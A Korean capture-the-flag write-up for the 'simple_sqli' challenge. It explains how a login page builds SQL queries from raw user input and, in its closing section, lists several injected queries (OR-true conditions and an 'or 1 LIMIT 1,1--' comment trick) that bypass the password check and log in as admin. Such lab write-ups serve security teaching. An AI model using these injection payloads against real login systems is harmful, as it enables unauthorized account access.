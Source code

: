 ## 📍simple_sqli

```
로그인 서비스입니다.  
SQL INJECTION 취약점을 통해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.
```

관리자 계정으로 로그인하면 화면에 FLAG가 출력된다.

#### 소스코드

**login** 페이지는 입력받은 `userid`, `userpassword`를 DB에서 조회하고 이에 해당하는 데이터가 있는 경우 로그인을 수행한다.
![](../../Attachments/B607DA3B-7FF6-44E6-85A9-E69B1C77D59B.png)

admin 계정의 비밀번호는 랜덤 16바이트의 문자열이기 때문에 값을 예상할 수 없다.


#### 취약점

login 페이지에서 `userid`와 `userpassword`를 이용자에게 입력받고, 동적으로 쿼리문을 생성한 뒤 `query_db` 함수에서 DB에 질의한다.
이렇듯 동적으로 생성한 쿼리를 **RawQuery**라고 한다.
RawQuery를 생성할 때 이용자의 입력값이 쿼리문에 그대로 포함되면 SQL Injection 취약점에 노출될 수 있다.
(이용자의 입력값을 검사하는 과정이 없음)
임의의 쿼리문을 `userid` 또는 `userpassword`에 삽입해 SQL Injection 공격을 시도한다.


#### 해결

로그인을 위해 실행하는 쿼리문: `SELECT * FROM users WHERE userid="{userid}" AND userpassword="{userpassword}";`

`userpassword`를 검사하는 과정을 생략할 수 있게 다음과 같이 입력한다.

![](../../Attachments/1E865DA1-F5C1-4F4A-B84C-083A3E3BF6F3.png)

![](../../Attachments/CD50907D-64F4-4751-8675-417225786EE2.png)


#### 다른 해결법

```sql
/* userid 검색조건 뒤에 OR 조건을 추가해 뒷 내용이 뭐든 admin 반환 */
SELECT * FROM users WHERE userid="admin" or "1" AND userpassword=""
/* userid 검색조건에 admin, userpassword에 임의 값을 입력하고 OR 조건을 추가 */
SELECT * FROM users WHERE userid="admin" AND userpassword="" OR userid="admin"
/* userid 검색조건 뒤에 OR 1을 추가해 테이블의 모든 내용을 반환하도록 하고, LIMIT 절을 이용해 두 번째 Row인 admin을 반환하도록 함 */
SELECT * FROM users WHERE userid="" or 1 LIMIT 1,1-- " AND userpassword=""
```